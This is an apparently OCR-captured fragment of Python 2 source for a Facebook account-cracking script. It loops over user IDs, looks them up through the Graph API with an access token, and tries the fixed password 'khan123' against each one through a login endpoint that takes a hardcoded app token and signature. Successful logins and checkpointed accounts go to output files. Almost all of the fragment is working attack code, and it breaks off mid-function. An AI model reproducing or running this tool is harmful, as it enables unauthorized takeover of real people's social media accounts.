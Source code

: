 	jalan('\033[1;96m \033[1;93mStarting \033[1;97m...')

	titik = ['.   ','..  ','... ']

	for o in titik:

		print("\r\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)

	print

	print('\x1b[1;96m \x1b[1;93mTo Stop Process Press CTRL Then Press z')

	print 42*"\033[1;96m="

	

			

	def main(arg):

		global cekpoint,oks

		user = arg

		try:

			os.mkdir('out')

		except OSError:

			pass

		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)

			pass1 = ('khan123')

			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

			q = json.load(data)

			if 'access_token' in q:

				print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1

				oks.append(user+pass1)

			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m |\x1b[1;97m ' + pass1

					cek = open("out/checkpoint.txt", "a")

					cek.write(user+"|"+pass1+"\n")

